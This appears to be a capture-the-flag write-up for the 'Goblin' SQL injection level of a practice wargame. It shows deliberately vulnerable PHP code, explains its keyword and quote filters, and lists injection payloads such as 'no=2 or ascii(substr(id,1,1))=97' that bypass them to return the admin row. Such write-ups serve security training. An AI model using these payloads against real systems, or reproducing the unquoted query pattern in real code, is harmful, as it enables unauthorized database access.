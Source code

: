 # **Goblin**
## 1. What will we learn from this problem?
This problem wants to make sure you can use **many SQL Functions**      

## 2. Analize codes  
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
      if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 

      $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
        echo "<h2>Hello {$result[id]}</h2>"; 

      if($result['id'] == 'admin')
        solve("goblin");

      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
We can't use string like these.(scope : no)  

    prob | _ | . | ()

If we use one of these, we will see 'No Hack ~_~'

There is one more preg_match function.

    ' | " | ` 

If we use one of these we will see 'No Quote ~_~'

### 2. query
Query is this.

    select id from prob_goblin where id='guest' and no={$_GET[no]}

Let's think how to modulate that.

### 3. if($result['id'] == 'admin')
If data which we got from database using query has 'id' field and the value of the field is same with 'admin',
then we can solve this problem.  
    
Then how can we do that?

## 3. Solution  
In this problem, we can't use quote. But that does not matter.  
So, enough we can get the value. then how?

Those keywords are as follows.
  
### Using Keyword  

    or | substr | order by | limit | ascii | etc.....
    
    <There are too many answers to this problem.>

### These are my answers.
    
    ?no=2 or ascii(substr(id,1,1))=97
      
    ?no=2 or 1 order by id

    ?no=2 or no=2

    ?no=0 or 1 limit 1,1
  

### **ascii(char)**
This function will return the ascii value of the parameter which is char type.

### **substr(str,offset,length)**
This function will return the string from offset to length

### **order by {column} {type=asc(?)}**
If we use this function, SQL will sort data by column according to asc. If we want sort in descending order, we can use order by like this

    order by {column} desc

### **limit {offset},{amount}**
This function will cut the rows from offset-index to (offset+amount)-index.  
Start of index is 0, zero. And if we use this like "limit 1", it is same with "limit 0,1"

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL-Security/blob/master/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**